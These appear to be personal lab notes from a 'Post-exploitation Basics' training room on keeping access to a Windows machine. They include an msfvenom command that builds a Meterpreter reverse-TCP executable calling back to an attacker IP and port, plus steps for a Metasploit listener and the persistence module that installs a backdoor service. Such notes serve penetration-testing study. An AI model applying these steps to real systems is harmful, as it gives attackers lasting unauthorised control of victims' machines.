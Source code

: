 There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.

**Generating a Payload w/ msfvenom**

1. Create a payload by specifying attacker machine IP and port and specify name of the file.
   `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.37 LPORT=5555 -f exe -o shell.exe`
2. Deliver it to the target machine by any means , I utilized `secure copy protocol` to transfer the `shell.exe` to the windows machine. 
    ![[Pasted image 20240711140929.png]]
   
   ![[Pasted image 20240711141110.png]] 

3. Now  open metasploit in attacker machine by invoking the command `msfconsole`
   
   Then follow the steps as shown in image
   ![[Pasted image 20240711135532.png]]


   Then set the `LHOST`  and `LPORT` as desired and set the payload `windows/meterpreter/reverse_tcp`

    ![[Pasted image 20240711135633.png]]


6. Now, start the listener by using command `run` , once you run that exe in the target windows machine, it will open a shell as shown in image below.
    ![[Pasted image 20240711135959.png]]
 
 7. Once done with above process background the shell using `bg` or `background`. 
    ![[Pasted image 20240711144520.png]]

8. Use the `exploit/windows/local/persistence` module to create a persistent backdoor on the target system. By default, this module sends a payload every 10 seconds, but you can customize this interval to any duration you prefer.

    ![[Pasted image 20240711144601.png]]

9. Set the session to the session that we backgrounded in this case session 1 
     ![[Pasted image 20240711144829.png]]
 10. Now, when you the run it back , the persistent module will create a new session if in case the old one died. 
    
 `Note: If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.`

 Awesome! Now you have successfully learnt to install a Backdoor in a remote machine.
 
 Thus, we are done with the topic of Post-exploitation Basics.